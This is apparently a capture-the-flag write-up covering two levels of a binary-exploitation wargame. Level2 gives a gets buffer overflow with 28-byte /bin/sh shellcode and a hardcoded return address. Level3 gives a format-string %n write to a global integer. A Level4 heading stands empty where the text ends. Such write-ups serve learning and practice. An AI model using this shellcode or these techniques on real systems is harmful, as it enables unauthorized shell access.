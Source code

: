 ## Level2 - Gets buffer overflow -> Shellcode exploit

Gets is vulnerable

Override return address. The return address can't start with 0xb

Use the address of the pointer created by strdup that contains shellcode

### Resolve

```shell
pattern create 200 input
run < input
pattern search
  EIP+0 found at offset: 80

# get strdup
b*main+105 # after strdup
run < <(python -c "print '$SHELLCODE' + 'A' * (80-28) + 'BBBB'")
  EAX: 0x804a008 # strdup dest

export SHELLCODE=`python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'` # length 28

(python -c "print '$SHELLCODE' + 'A' * (80-28) + '\x08\xa0\x04\x08'" ; cat) | ~/level2
```

---

## Level3 - Format string vulnerability - Change global integer

printf is vulnerable

global integer has to have the value 0x40 (64)

### Resolve

```shell
b printf
run <<< AAAA
telescope 10
  => offset: 4

./level3 <<< 'AAAA.%4$p'

m address = 0x0804988c

(python -c 'print "\x8c\x98\x04\x08" + "%60x" + "%4$n"' ; cat) | ~/level3
```

---

## Level4 - Format string vulnerability - Change global integer

